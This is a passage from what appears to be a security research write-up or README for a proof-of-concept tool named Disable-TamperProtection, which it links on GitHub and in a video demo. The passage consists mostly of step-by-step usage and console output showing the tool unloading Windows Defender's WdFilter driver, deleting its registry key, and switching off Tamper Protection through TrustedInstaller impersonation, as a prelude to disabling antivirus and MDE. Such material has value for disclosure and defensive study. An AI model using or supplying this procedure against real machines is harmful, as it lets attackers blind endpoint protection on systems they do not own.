 A POC has been included, called Disable-TamperProtection which can be found on GitHub here: https://github.com/m3rcer/Disable-TamperProtection

*NOTE: VC_redist.x64.exe could be required on the target.*

Required elevated privileges to perform the attack have been incorporated in the POC by using the superUser project codebase as a reference for TrustedInstaller privilege impersonation. 

POC Video Demo: https://www.youtube.com/watch?v=aGTrjDxMSdU

The POC works in 3 steps (Admin privileges required):

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe
Sequential Usage: 1 --> 2 --> 3
1:      Unload WdFilter
2:      Disable Tamper Protection
3:      Disable AV/MDE
4:      Restore AV/MDE settings
```

An example, to use the POC is as follows:

1) Unload WdFilter:

```
C:\Users\User\Desktop> .\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key Value: 328010
[+] Trusted Installer handle: 0000000000000120
[!] Spawning registry with TrustedInstaller privileges to delete WdFilter "Altitude" regkey.
[+] Created process ID: 3744 and assigned additional token privileges.
[+] Execute option 1 to validate!

# Upon 2nd exec if the above output repeats the target isn't vulnerable
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Enumerating WdFilter information:
        Next:   0 | Frame ID:   0 | No. of Instances:   4 | Name:        wdfilter | Altitude:          328010
[+] Restart the system or wait a few minutes for WdFilter to unload.
[+] Execute option 1 to validate!

# Restart to crash and unload WdFilter
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 1
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] WDFilter has been successfully unloaded, use option 2 to disable Tamper Protection.
```

2) Disable Tamper Protection:

```
C:\Users\User\Desktop>.\Disable-TamperProtection.exe 2
[+] WdFilter Altitude Registry key has been successfully deleted.
[+] Trusted Installer handle: 00000000000000C4
[!] Spawning registry with TrustedInstaller privileges to alter Defender "TamperProtection" regkey from 5 to 4.
[+] Created process ID: 7748 and assigned additional token privileges.
[+] Use option '3' to finally Disable AV/MDE.
```
